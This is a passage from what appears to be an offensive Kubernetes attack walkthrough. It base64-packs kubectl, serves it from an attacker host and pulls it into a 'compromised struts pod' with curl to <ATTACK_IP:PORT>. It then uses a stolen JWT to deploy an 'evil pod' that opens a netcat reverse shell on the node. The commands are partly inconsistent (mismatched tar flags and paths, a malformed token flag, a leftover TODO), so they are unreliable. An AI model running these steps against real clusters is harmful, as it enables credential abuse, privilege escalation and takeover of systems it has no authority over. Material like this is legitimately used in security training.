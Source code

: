 Or my preferred way... Compress kubectl and infiltrate it into the pod!

If it's already on your system then just make a copy of it and skip the next command.

```bash
curl -LO https://storage.googleapis.com/kubernetes-release/release/$(curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt)/bin/linux/amd64/kubectl
```

Let's compress and encode the kubectl binary:

```bash
mkdir kube
mv kubectl kube/kube
tar -zcvf kube.tar.gz kube
cat kube.tar.gz | base64 > kube.tar.gz.b64
```

Now serve the file up:

```bash
python -m SimpleHTTPServer [PORT]
```

Back in the compromised struts pod
Get the kubectl payload

```bash
curl http://<ATTACK_IP:PORT>/kube.tar.gz.b64
```

decode and extract the binary

```bash
cat kube.tar.gz.b64 | base64 -d > kube.tar.gz
tar -xjvf kube.tar.gz
mv kubectl_payload/kubectl ./kube
```

make it executable

```
chmod +x ./kube
```

Now let's test it out with out freshly stolen JWT :)

```
./kube --token=$t get pods
```

Alright, let's create that evil pod!

```bash
./kube --token$t apply -f pod.json
```

TODO: talk about how the pod is now created

After a few seconds or so, if all went well, you should see a connection to your netcat listener.

In that reverse shell we can do the following to show that we've pwned the node itself!
